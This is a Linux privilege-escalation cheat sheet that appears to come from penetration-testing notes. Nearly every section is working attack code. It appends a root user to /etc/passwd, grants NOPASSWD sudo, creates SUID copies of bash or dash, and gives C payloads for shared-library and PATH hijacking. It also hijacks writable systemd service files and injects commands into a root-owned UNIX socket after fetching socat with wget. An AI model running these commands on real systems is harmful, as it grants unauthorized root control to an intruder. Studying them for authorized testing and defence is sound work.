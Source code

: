 # Privileges Exploitation

## Writable /etc/passwd

Create a new user entry in root group and append it to the /etc/passwd file

```bash
echo "<username>:$(openssl passwd <password>):0:0:/root:/root:/bin/bash" >> /etc/passwd
```

## Writable /etc/sudoers

Allow current user to invoke any program with sudo without needing the password

```bash
echo "$(whoami) ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
echo "$(whoami) ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers.d/README
```

## Elevated shell with sticky bit

By exploiting an application running as root (for instance a database or a script) it is possible to obtain an elevated shell by executing the following commands within the elevated application:

```bash
cp /bin/dash /tmp/<file>
chmod u+s /tmp/<file>
#execute the elevated shell
/tmp/<file> -p
```

## SUID exploit

### Built-in exploitable binaries

{% embed url="https://gtfobins.github.io/" %}

### Shared library hijack

#### check for missing .so files

```bash
strace <binary> 2>&1 | grep -i -E "open|access|no such file"
ldd <file> | grep "not found"
```

#### Shared library code

Put the file in the path of the missing library or replace it if you can write in the folder.

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject(){
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

#### Compile as

```bash
gcc -shared -o <path to library> -fPIC <file>.c
```

### Relative path hijack

#### Find calls to system binaries in executable file

Search for calls to executables with relative paths, for instance instead of `/bin/cp` look for `cp`

```bash
strings <file>    #static calls
ltrace <file>     #library calls during execution
```

#### boilerplate code

```bash
#include <stdio.h>
#include <stdlib.h>

int main(){
setresuid(0,0,0);
system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
return 0;
}
```

#### compile and execute

Add the /tmp folder to the $PATH variable and compile the malicious program with the same name as the relative path executable invoked in the vulnerable executable. In this way the generated malicious program will be detected and executed before the system one.

```bash
export $PATH=/tmp:$PATH
gcc -o /tmp/<name>.so <name>.c -s --static
/<path to vuln binary>
```

## Writable service files

Can be found by searching for .service files with write permission or by checking write permissions with sudo -l

### File template

the Exec\* instructions can be hijacked to execute arbitrary scripts

```
[Unit]
Description=The NGINX HTTP and reverse proxy server
After=syslog.target network.target remote-fs.target nss-lookup.target

[Service]
Type=forking
PIDFile=/run/nginx.pid
ExecStartPre=/usr/sbin/nginx -t
ExecStart=/usr/sbin/nginx
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s QUIT $MAINPID
PrivateTmp=true

[Install]
WantedBy=multi-user.target
```

The basic structure of a service file is the following:

```
[Unit]
Description=Foo

[Service]
ExecStart=/usr/sbin/foo-daemon
#OR
ExecStart='<CMD>'

[Install]
WantedBy=multi-user.target
```

### Manage services

```
which <deamon>                    get the path to the running deamon
sudo systemctl start <deamon>     start deamon        
sudo systemctl stop <deamon>      stop deamon
sudo systemctl restart <deamon>   restart deamon
systemctl status <deamon>         get status info
sudo systemctl enable <deamon>    launch deamon on startup
journalctl -u <deamon>            access logs for given deamon
```

## Socket Code Injection

When an application creates a socket running under root it is possible to send commands to the socket to create a suid-privileged shell and escalate privileges.  These applications can be recognized because they create a .s file in a specific folder (usually /tmp)

If the target machine does not have socat installed execute the following command

```
wget https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true && chmod +x ./socat
```

Run the application to spawn the socket then execute the following commands to spawn a privileged shell

```
echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash; chmod +x /tmp/bash;" | socat - UNIX-CLIENT:<path to socket file>
/tmp/bash
```
